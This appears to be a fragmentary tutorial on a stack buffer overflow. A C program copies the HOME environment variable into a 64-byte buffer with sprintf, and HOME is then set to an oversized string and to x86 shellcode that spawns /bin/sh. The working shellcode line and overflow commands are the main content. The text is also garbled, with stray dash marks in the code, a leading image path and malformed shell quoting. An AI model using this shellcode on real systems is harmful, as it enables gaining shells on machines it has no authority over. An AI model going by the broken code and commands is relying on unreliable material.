

Using environmental variables requires the program to use and have access to environmental varibales, many don't
Example of a program that uses environmental variable
#include <stdio.h>
#include <stdlib.h>
int main(void)
{ - char *ptr_h; char h[64];
- ptr_h = getenv("HOME");
if(ptr_h != NULL) {
- sprintf(h, "Your home directory is: %s !", ptr_h);
- printf("%s\n", h);
- }
- return 0;
}
$ export HOME=perl -e ‘print “A”x128’``

So lets enter some shellcode to get a shell (/bin/bash/)
$ export HOME=perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69 \x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'
We are abusing a pointer in this (EIP, ESP, and EBP
) redirecting the pointer